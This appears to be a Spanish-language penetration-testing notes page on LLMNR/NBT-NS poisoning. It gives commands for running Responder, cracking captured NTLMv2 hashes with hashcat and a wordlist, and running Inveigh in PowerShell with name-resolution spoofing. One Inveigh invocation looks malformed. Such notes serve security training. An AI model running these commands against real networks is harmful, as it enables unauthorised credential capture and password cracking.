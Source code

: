 #mitm #responder
## LLMNR/NBT-NS Possoning
[Link-Local Multicast Name Resolution](https://datatracker.ietf.org/doc/html/rfc4795) (LLMNR) and [NetBIOS Name Service](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc940063(v=technet.10)?redirectedfrom=MSDN) (NBT-NS) son métodos alternativos de resolución de nombres que pueden ser usados cuando falla el DNS. Cualquier host puede responder utilizando alguno de los protocolos mencionados. 
## Linux - `responder`
### Configuración - `responder.conf`
Se pueden configurar los protocolos sobre los que actúar. Por defecto alojado en: 
```
/usr/share/responder
```
### Logs
Además de mostrar por pantalla los logs, responder guarda en un log la información recopilada: 
```
/usr/share/responder/logs
```
### Responder con configuración por defecto
```bash
sudo responder -I ens224
```
### Craquear NTMLv2 con hashcat
El hash que se captura en el paso anterior es un hash NTMLv2 ( [Hashcat example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)) 
```bash
hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt
```

## **Inveigh**

[Inveigh](https://github.com/Kevin-Robertson/Inveigh) Sería la herramienta equivalente a `responder` en Windows, pero está escrita en Powershell y C#. Se puede usar cualquiera de las dos versiones

### Versión powershell

Podemos ver los parámetros que quedan por defecto [aquí](https://github.com/Kevin-Robertson/Inveigh#parameter-help). Para ejecutarlo con envenenamiento LLMNR y NBNS podemos escribir lo siguiente:

```powershell
Import-Module .\\Inveigh.ps1
# podemos ver los parámetros escribiendo lo siguiente
(Get-Command Invoke-Inveigh).Parameters
# Ejecución con spoofing LLMNR y NBNS 
Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y
```

El output de los HASH NTMLv2 quedaría en un archivo en la misma carpeta llamado `Inveigh-NTLMv2.txt`